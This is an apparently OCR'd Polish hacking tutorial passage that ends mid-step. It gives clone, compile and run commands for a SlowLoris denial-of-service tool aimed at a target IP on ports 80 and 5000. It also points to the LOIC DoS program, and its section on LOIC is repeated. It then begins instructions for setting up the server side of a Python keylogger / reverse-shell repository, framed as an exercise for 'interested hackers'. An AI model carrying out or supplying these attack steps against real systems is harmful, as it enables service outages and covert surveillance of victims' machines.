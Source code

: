 Instalacja `SlowLorisDDoSAttackCPP`
```sh
git clone https://github.com/vsouda/SlowLorisDDoSAttackCPP.git
cd SlowLorisDDoSAttackCPP
g++ slowlorisattackmultithread.cpp -std=c++0x -pthread -o slowloris2s
```
Przeprowadzenie ataku
```sh
./slowloris2s 192.168.1.15 5000 1000 1000
# Przeprowadzenie ataku na port 5000

./slowloris2s 192.168.1.15 80 1000 1000
# Przeprowadzenie ataku na port 80
```


Atak z wykorzystaniem programu Niskoorbitalne Działo Jonowe (ang. Low Orbit Ion Cannon, LOIC). Program służy do przeprowadzenia ataków DoS

Instalacja `LOIC`
Program można pobrać ze strony projektu na githubie
https://github.com/NewEraCracker/LOIC

Przeznaczony jest na platformę Windows. Przy pomocy programu Wine można z niego korzystać na MacOS i Linuksie.
https://github.com/NewEraCracker/LOIC/wiki/_pages

![png](https://raw.githubusercontent.com/a11g0rhythm/test/main/DoS_DDoS_cz_03_LOIC.png)

## DoS DDoS

Niskoorbitalne Działo Jonowe (ang. Low Orbit Ion Cannon, LOIC) - program służy do przeprowadzenia ataków DoS

Instalacja
Program można pobrać ze strony projektu na githubie
https://github.com/NewEraCracker/LOIC

Przeznaczony jest na platformę Windows. Przy pomocy programu Wine można z niego korzystać na MacOS i Linuksie.
https://github.com/NewEraCracker/LOIC/wiki/_pages

![png](https://raw.githubusercontent.com/a11g0rhythm/test/main/DoS_DDoS_cz_03_LOIC.png)

## Keylogger
Zainteresowani hakerzy mogą wykonać ćwiczenie samodzielnie, pobierając zbliżoną bibliotekę [Kelogger - Tangerie/CFD-Python3-Reverse-Shell](https://github.com/Tangerie/CFD-Python3-Reverse-Shell), zawierającą kod python po stronie klienta Windows i po stronie serwera Linux
```sh 
git clone https://github.com/Tangerie/CFD-Python3-Reverse-Shell
```
Następnie, należy wykonać następujące kroki:
###### Na serwerze
1. Instalujemy wymagane biblioteki python
    ```sh
    pip install -r requirements.txt
    ```
2. Uruchamiamy serwer `Server/server.py`
    ```sh
    python Server/server.py
	# wprowadzamy numer portu, który chcemy użyć dla serwera
	# lub od razu 
	python Server/server.py [port dla serwera]